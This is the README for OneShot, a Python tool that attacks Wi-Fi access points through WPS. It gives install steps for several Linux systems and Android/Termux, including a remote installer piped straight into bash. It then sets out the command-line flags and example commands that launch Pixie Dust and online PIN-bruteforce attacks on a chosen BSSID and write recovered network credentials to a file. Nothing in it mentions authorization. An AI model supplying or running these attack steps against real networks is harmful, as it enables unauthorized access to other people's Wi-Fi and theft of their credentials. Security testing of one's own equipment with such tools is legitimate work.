 Features
Pixie Dust attack;
integrated 3WiFi offline WPS PIN generator;
online WPS bruteforce;
Wi-Fi scanner with highlighting based on iw;
Requirements
Python 3.6 and above;
Wpa supplicant;
Pixiewps;
iw.
Setup
Debian/Ubuntu
Installing requirements

sudo apt install -y python3 wpasupplicant iw wget
Installing Pixiewps

Ubuntu 18.04 and above or Debian 10 and above

sudo apt install -y pixiewps
Other versions

sudo apt install -y build-essential unzip
wget https://github.com/wiire-a/pixiewps/archive/master.zip && unzip master.zip
cd pixiewps*/
make
sudo make install
Getting OneShot

cd ~
wget https://raw.githubusercontent.com/drygdryg/OneShot/master/oneshot.py
Optional: getting a list of vulnerable to pixie dust devices for highlighting in scan results:

wget https://raw.githubusercontent.com/drygdryg/OneShot/master/vulnwsc.txt
Arch Linux
Installing requirements

sudo pacman -S wpa_supplicant pixiewps wget python
Getting OneShot

wget https://raw.githubusercontent.com/drygdryg/OneShot/master/oneshot.py
Optional: getting a list of vulnerable to pixie dust devices for highlighting in scan results:

wget https://raw.githubusercontent.com/drygdryg/OneShot/master/vulnwsc.txt
Alpine Linux
It can also be used to run on Android devices using Linux Deploy

Installing requirements
Adding the testing repository:

sudo sh -c 'echo "http://dl-cdn.alpinelinux.org/alpine/edge/testing/" >> /etc/apk/repositories'
sudo apk add python3 wpa_supplicant pixiewps iw
Getting OneShot

sudo wget https://raw.githubusercontent.com/drygdryg/OneShot/master/oneshot.py
Optional: getting a list of vulnerable to pixie dust devices for highlighting in scan results:

sudo wget https://raw.githubusercontent.com/drygdryg/OneShot/master/vulnwsc.txt
Termux
Please note that root access is required.

Using installer
curl -sSf https://raw.githubusercontent.com/drygdryg/OneShot_Termux_installer/master/installer.sh | bash
Manually
Installing requirements

pkg install -y root-repo
pkg install -y git tsu python wpa-supplicant pixiewps iw openssl
Getting OneShot

git clone --depth 1 https://github.com/drygdryg/OneShot OneShot
Running
sudo python OneShot/oneshot.py -i wlan0 --iface-down -K
Usage
 oneshot.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
Usage examples
Start Pixie Dust attack on a specified BSSID:

sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
Show avaliable networks and start Pixie Dust attack on a specified network:

sudo python3 oneshot.py -i wlan0 -K
Launch online WPS bruteforce with the specified first half of the PIN:

sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
Start WPS push button connection:s

sudo python3 oneshot.py -i wlan0 --pbc
Troubleshooting
"RTNETLINK answers: Operation not possible due to RF-kill"
Just run: sudo rfkill unblock wifi

"Device or resource busy (-16)"
Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running OneShot with --iface-down argument.

The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
Try running OneShot with the --mtk-wifi flag to initialize Wi-Fi device driver.

Acknowledgements
Special Thanks
rofl0r for initial implementation;
Monohrom for testing, help in catching bugs, some ideas;
Wiire for developing Pixiewps.
